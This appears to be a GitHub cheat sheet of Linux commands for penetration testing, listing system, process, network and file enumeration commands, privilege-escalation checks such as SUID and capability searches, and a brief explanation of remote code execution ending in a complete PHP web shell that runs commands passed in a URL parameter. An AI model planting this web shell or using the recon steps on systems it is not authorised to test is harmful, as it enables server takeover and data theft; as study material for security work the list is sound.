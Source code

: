# Useful linux commands for the cyber security

## Enumeration

### System Information

- `hostname`
- `uname -a`
- `cat /proc/version`
- `cat /etc/issue`

### Process Information

- `ps`
- `ps -A`
- `ps axjf`
- `ps aux`

### Environment Information

- `env`

### Sudo Privileges

- `sudo -l`

### File and Directory Information

- `ls`
- `ls -la`

### User and Privilege Information

- `id`
- `cat /etc/passwd`

### Command History

- `history`

### Network Information

- `ifconfig`
- `ip route`
- `netstat`
  - `netstat -a`
  - `netstat -at`
  - `netstat -au`
  - `netstat -l`
  - `netstat -s`
  - `netstat -tp`
  - `netstat -ano`
  - `netstat -i`

### File Search

- `find . -name <filename>`
- `find /home -name <filename>`
- `find / -type d -name <directory_name>`
- `find / -type f -perm 0777`
- `find / -perm a=x`
- `find /home -user <username>`
- `find / -mtime <days>`
- `find / -atime <days>`
- `find / -cmin -<minutes>`
- `find / -amin -<minutes>`
- `find / -size <size>`
- `find / -size +<size>`
- `find / -size -<size>`

### Finding the SUID/SGID Bits (P)

- `find / -type f -perm -04000 -ls 2>/dev/null` (Privilege Escalation)

### Shows Capabilities

- `getcap -r / 2>/dev/null` (Privilege Escalation)

### Shows Running Cron Jobs

- `cat /etc/crontab` (Privilege Escalation)

### Insecure $PATH vulnerability

- `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u` (Privilege Escalation)

# Exploitation techniques

## Remote Code Execution (RCE)

- RCE: Remote code execution (RCE) happens when an attacker finds a way to run their own code on a system. This is a highly dangerous vulnerability because it can allow the attacker to take control of the system, exfiltrate sensitive data, or compromise other connected systems.
- Web shell: A web shell is a script that attackers upload to a vulnerable server, giving them remote control over it. Once a web shell is in place, attackers can run commands, manipulate files, and essentially use the compromised server as their own. They can even use it to launch attacks on other systems.

- Simple web shell:

````
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command']))
    {
        system($_GET['command'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>```

````
